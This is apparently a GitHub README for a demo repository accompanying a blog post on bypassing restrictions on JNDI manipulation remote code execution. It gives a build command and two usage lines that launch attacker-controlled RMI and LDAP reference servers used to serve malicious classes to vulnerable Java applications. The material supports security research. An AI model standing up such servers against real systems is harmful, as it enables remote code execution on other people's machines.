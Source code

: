 # JNDI-Exploit-Bypass-Demo
Demo code for post &lt;Restrictions of JNDI Manipulation RCE &amp; Bypass>

<https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html>

## Build

```
mvn package
```

## Usage
```
java -cp HackerRMIRefServer-all.jar HackerRMIRefServer 0.0.0.0 8088 1099
java -cp HackerRMIRefServer-all.jar HackerLDAPRefServer  0.0.0.0 8088 1389
```



## Welcome Subscribe

![Wechat](https://kingx.me/images/secengine.jpg)
